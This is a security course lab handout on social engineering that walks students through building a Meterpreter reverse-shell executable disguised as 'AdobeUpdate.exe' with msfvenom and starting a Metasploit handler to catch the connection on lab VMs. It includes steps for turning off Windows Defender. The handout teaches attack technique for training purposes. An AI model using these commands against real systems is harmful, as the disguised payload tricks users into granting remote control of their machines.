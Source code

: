 ```yaml
---

title: Lab &ndash; Social Engineering
number: 11
description: "Only amateurs attack machines; professionals target people."
---
```


Today, social engineering attacks represent a major primary vector for hackers. As Bruce Schneier said, “Only amateurs attack machines; professionals target people.”[1](https://www.schneier.com/crypto-gram-0010.html)  
Further, client-side software represents a much larger attack surface than server-side software. For these reason, many of the major breaches you read about in the news began with a client-side attack. 

In this lab you’ll use two leading tools to perform client-side attacks: msfvenom and the Social Engineering Toolkit (SET). All of these attacks involve creating a malicious payload
that you trick the user into executing. The Metasploit-Framework is used to create the payloads, and you are on your own to trick the user.

# Part 1. MSFVenom with fake AdobeUpdate.exe

In this section, you’ll use msfvenom to perform a client-side attack. Msfvenom can be used to turn Metasploit payloads into stand-alone executables that a user can be tricked into running. Your goal is to (1) create a malicious executable file, (2) host it on a web server, and (3) exploit a Windows 10 VM.

1.	Open your Kali Linux and Windows 10 VMs. Make sure that both are on the same subnet and can ping each other.
2.	On Windows, make sure Windows Defender is turned off. Run:
	* click the windows button on the bottom left of the desktop and searching for 'Defender' and choose 'Windows Defender Security Center'
	* click 'Virus & Threat protection settings'
	* move the 'Real-time protection' slider to the left.

4.	In Kali, type `msfvenom --help-formats` to see a list of output formats that msfvenom supports. We’ll use the `-f exe` option to create a Windows executable.
5.	In Kali, run the following command, all on one line:

        msfvenom -p windows/meterpreter/reverse_tcp LHOST=[your Kali IP] -f exe > /tmp/AdobeUpdate.exe

    Where:

    * `-p`		Selects the payload
    * `-f`		Selects the file type of the output executable
    * `LHOST`   The IP of your Kali Linux VM

6.	Verify that the output file is about 73802 bytes in size. If not, you may need to check that you entered the command correctly and run it again.
10.	Run a msf handler to listen for the meterpreter reverse connection.
    11. On Kali, open a new terminal window and enter `msfconsole`.
    11.	Enter `use exploit/multi/handler`. Once you’ve switched to this exploit module, type `show info`. Note that this module “is a stub that provides all of the features of the Metasploit payload system to exploits that have been launched outside of the framework.” A stub adds additional functionality to other exploits.
    12.	Enter `set PAYLOAD windows/meterpreter/reverse_tcp`.
    13.	Enter `set LHOST [IP of Kali VM]`.
    15.	Enter `exploit -j`. 
    
